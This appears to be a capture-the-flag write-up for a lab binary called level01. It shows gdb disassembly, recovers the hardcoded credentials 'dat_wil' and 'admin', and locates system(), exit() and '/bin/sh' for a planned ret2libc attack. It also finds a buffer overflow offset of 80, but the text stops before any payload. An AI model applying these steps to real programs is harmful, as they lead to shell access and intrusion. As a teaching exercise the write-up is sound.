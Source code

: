 # GDB analysis

[`gdb`](https://linux.die.net/man/1/gdb) is useful for us to understand how a given binary works.

## Main function

Let's see what this program does...

```gdb
  $> gdb ./level01
  (gdb) disassemble main
  Dump of assembler code for function main:
    0x080484d0 <+0>:     push   %ebp
    0x080484d1 <+1>:     mov    %esp,%ebp
    0x080484d3 <+3>:     push   %edi
    0x080484d4 <+4>:     push   %ebx
    0x080484d5 <+5>:     and    $0xfffffff0,%esp
    0x080484d8 <+8>:     sub    $0x60,%esp
    0x080484db <+11>:    lea    0x1c(%esp),%ebx
    0x080484df <+15>:    mov    $0x0,%eax
    0x080484e4 <+20>:    mov    $0x10,%edx
    0x080484e9 <+25>:    mov    %ebx,%edi
    0x080484eb <+27>:    mov    %edx,%ecx
    0x080484ed <+29>:    rep stos %eax,%es:(%edi)
    0x080484ef <+31>:    movl   $0x0,0x5c(%esp)
    0x080484f7 <+39>:    movl   $0x80486b8,(%esp)
    0x080484fe <+46>:    call   0x8048380 <puts@plt>
    0x08048503 <+51>:    mov    $0x80486df,%eax
    0x08048508 <+56>:    mov    %eax,(%esp)
    0x0804850b <+59>:    call   0x8048360 <printf@plt>
    0x08048510 <+64>:    mov    0x804a020,%eax
    0x08048515 <+69>:    mov    %eax,0x8(%esp)
    0x08048519 <+73>:    movl   $0x100,0x4(%esp)
    0x08048521 <+81>:    movl   $0x804a040,(%esp)
    0x08048528 <+88>:    call   0x8048370 <fgets@plt>
    0x0804852d <+93>:    call   0x8048464 <verify_user_name>
    0x08048532 <+98>:    mov    %eax,0x5c(%esp)
    0x08048536 <+102>:   cmpl   $0x0,0x5c(%esp)
    0x0804853b <+107>:   je     0x8048550 <main+128>
    0x0804853d <+109>:   movl   $0x80486f0,(%esp)
    0x08048544 <+116>:   call   0x8048380 <puts@plt>
    0x08048549 <+121>:   mov    $0x1,%eax
    0x0804854e <+126>:   jmp    0x80485af <main+223>
    0x08048550 <+128>:   movl   $0x804870d,(%esp)
    0x08048557 <+135>:   call   0x8048380 <puts@plt>
    0x0804855c <+140>:   mov    0x804a020,%eax
    0x08048561 <+145>:   mov    %eax,0x8(%esp)
    0x08048565 <+149>:   movl   $0x64,0x4(%esp)
    0x0804856d <+157>:   lea    0x1c(%esp),%eax
    0x08048571 <+161>:   mov    %eax,(%esp)
    0x08048574 <+164>:   call   0x8048370 <fgets@plt>
    0x08048579 <+169>:   lea    0x1c(%esp),%eax
    0x0804857d <+173>:   mov    %eax,(%esp)
    0x08048580 <+176>:   call   0x80484a3 <verify_user_pass>
    0x08048585 <+181>:   mov    %eax,0x5c(%esp)
    0x08048589 <+185>:   cmpl   $0x0,0x5c(%esp)
    0x0804858e <+190>:   je     0x8048597 <main+199>
    0x08048590 <+192>:   cmpl   $0x0,0x5c(%esp)
    0x08048595 <+197>:   je     0x80485aa <main+218>
    0x08048597 <+199>:   movl   $0x804871e,(%esp)
    0x0804859e <+206>:   call   0x8048380 <puts@plt>
    0x080485a3 <+211>:   mov    $0x1,%eax
    0x080485a8 <+216>:   jmp    0x80485af <main+223>
    0x080485aa <+218>:   mov    $0x0,%eax
    0x080485af <+223>:   lea    -0x8(%ebp),%esp
    0x080485b2 <+226>:   pop    %ebx
    0x080485b3 <+227>:   pop    %edi
    0x080485b4 <+228>:   pop    %ebp
    0x080485b5 <+229>:   ret 
  End of assembler dump.
```

> It uses [`puts()`](https://man7.org/linux/man-pages/man3/puts.3.html), [`printf()`](https://man7.org/linux/man-pages/man3/printf.3.html) and [`fgets()`](https://linux.die.net/man/3/fgets) and calls for two custom functions: `verify_user_name()` and `verify_user_pass()`.

As we can see, it asks us to input two strings using `fgets()` which seems like a login/password pair.

## Additional functions

As we discovered there are two more functions to go through...

```gdb
  $> gdb ./level01 
  (gdb) disassemble verify_user_name
  Dump of assembler code for function verify_user_name:
   0x08048464 <+0>:     push   %ebp
   0x08048465 <+1>:     mov    %esp,%ebp
   0x08048467 <+3>:     push   %edi
   0x08048468 <+4>:     push   %esi
   0x08048469 <+5>:     sub    $0x10,%esp
   0x0804846c <+8>:     movl   $0x8048690,(%esp)
   0x08048473 <+15>:    call   0x8048380 <puts@plt>
   0x08048478 <+20>:    mov    $0x804a040,%edx
   0x0804847d <+25>:    mov    $0x80486a8,%eax
   0x08048482 <+30>:    mov    $0x7,%ecx
   0x08048487 <+35>:    mov    %edx,%esi
   0x08048489 <+37>:    mov    %eax,%edi
   0x0804848b <+39>:    repz cmpsb %es:(%edi),%ds:(%esi)
   0x0804848d <+41>:    seta   %dl
   0x08048490 <+44>:    setb   %al
   0x08048493 <+47>:    mov    %edx,%ecx
   0x08048495 <+49>:    sub    %al,%cl
   0x08048497 <+51>:    mov    %ecx,%eax
   0x08048499 <+53>:    movsbl %al,%eax
   0x0804849c <+56>:    add    $0x10,%esp
   0x0804849f <+59>:    pop    %esi
   0x080484a0 <+60>:    pop    %edi
   0x080484a1 <+61>:    pop    %ebp
   0x080484a2 <+62>:    ret    
End of assembler dump.
```

> It uses [`puts()`](https://man7.org/linux/man-pages/man3/puts.3.html) and [`strncmp()`](https://linux.die.net/man/3/strncmp) via the `repz cmpsb` instruction.

This one displays a message before comparing our first input to a string (`dat_wil` as shown bellow).

```gdb
  $> gdb ./level01 
  (gdb) disassemble verify_user_pass 
  Dump of assembler code for function verify_user_pass:
    0x080484a3 <+0>:     push   %ebp
    0x080484a4 <+1>:     mov    %esp,%ebp
    0x080484a6 <+3>:     push   %edi
    0x080484a7 <+4>:     push   %esi
    0x080484a8 <+5>:     mov    0x8(%ebp),%eax
    0x080484ab <+8>:     mov    %eax,%edx
    0x080484ad <+10>:    mov    $0x80486b0,%eax
    0x080484b2 <+15>:    mov    $0x5,%ecx
    0x080484b7 <+20>:    mov    %edx,%esi
    0x080484b9 <+22>:    mov    %eax,%edi
    0x080484bb <+24>:    repz cmpsb %es:(%edi),%ds:(%esi)
    0x080484bd <+26>:    seta   %dl
    0x080484c0 <+29>:    setb   %al
    0x080484c3 <+32>:    mov    %edx,%ecx
    0x080484c5 <+34>:    sub    %al,%cl
    0x080484c7 <+36>:    mov    %ecx,%eax
    0x080484c9 <+38>:    movsbl %al,%eax
    0x080484cc <+41>:    pop    %esi
    0x080484cd <+42>:    pop    %edi
    0x080484ce <+43>:    pop    %ebp
    0x080484cf <+44>:    ret    
  End of assembler dump.
```

> It only use [`strncmp()`](https://linux.die.net/man/3/strncmp) via the `repz cmpsb` instruction.

Same process here, comparing our second input to another string (`admin` as shown bellow).

# Data

## Variables

Using gdb, we can get the list of global variable as well.

```gdb
  (gdb) info variable
  All defined variables:

  Non-debugging symbols:
  0x08048688  _fp_hw
  0x0804868c  _IO_stdin_used
  0x08048898  __FRAME_END__
  0x08049f14  __CTOR_LIST__
  0x08049f14  __init_array_end
  0x08049f14  __init_array_start
  0x08049f18  __CTOR_END__
  0x08049f1c  __DTOR_LIST__
  0x08049f20  __DTOR_END__
  0x08049f24  __JCR_END__
  0x08049f24  __JCR_LIST__
  0x08049f28  _DYNAMIC
  0x08049ff4  _GLOBAL_OFFSET_TABLE_
  0x0804a014  __data_start
  0x0804a014  data_start
  0x0804a018  __dso_handle
  0x0804a020  stdin@@GLIBC_2.0
  0x0804a024  completed.6159
  0x0804a028  dtor_idx.6161
  0x0804a040  a_user_name
```

We have a variable called `a_user_name` which is used to hold our first input.

## Addresses

For this level we'll need to do a [ret2libc attack](https://en.wikipedia.org/wiki/Return-to-libc_attack). So we must get addresses of [`system()`](https://man7.org/linux/man-pages/man3/system.3.html), [`exit()`](https://man7.org/linux/man-pages/man3/exit.3.html) and the string `/bin/sh` (located in the next section).

```gdb
  (gdb) print &system
  $1 = (<text variable, no debug info> *) 0xf7e6aed0 <system>
```

Address of `system()` function is `0xf7e6aed0`.

```gdb
  (gdb) print &exit
  $1 = (<text variable, no debug info> *) 0xf7e5eb70 <exit>
```

Address of `exit()` function is `0xf7e5eb70`.

```gdb
  (gdb) find &system, +9999999, "/bin/sh"
  0xf7f897ec
```

The string `/bin/sh` is located at `0xf7f897ec`.

## Strings

```
  0x0804847d <+25>:    mov    $0x80486a8,%eax

  (gdb) x/s 0x80486a8
  0x80486a8: "dat_wil"
```

The string `dat_wil` is located at address `0x80486a8`.

```
  0x080484ad <+10>:    mov    $0x80486b0,%eax
  
  (gdb) x/s 0x80486b0
  0x80486b0: "admin"
```

The string `admin` is located at address `0x80486b0`.

## Buffer offsets

Since there is no built-in way to spawn a shell we'll need to use a buffer overflow, for this we need to know its offset. Using a pattern generator like [wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) we can quickly now this.

```gdb
  $> gdb level01
  (gdb) run

  Starting program: /home/users/level01/level01 
  ********* ADMIN LOGIN PROMPT *********
  Enter Username: dat_wil
  verifying username....

  Enter Password: 
  Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae
  nope, incorrect password...

  Program received signal SIGSEGV, Segmentation fault.
  0x37634136 in ?? ()
```

> Using this particular pattern ends up with a segfault due to overflow. The program tries to access address `0x37634136` thanks to that overflow. Using `wireshark` we can then, find out that this particular string is in fact at index **80** in the pattern, this is our offset for this buffer.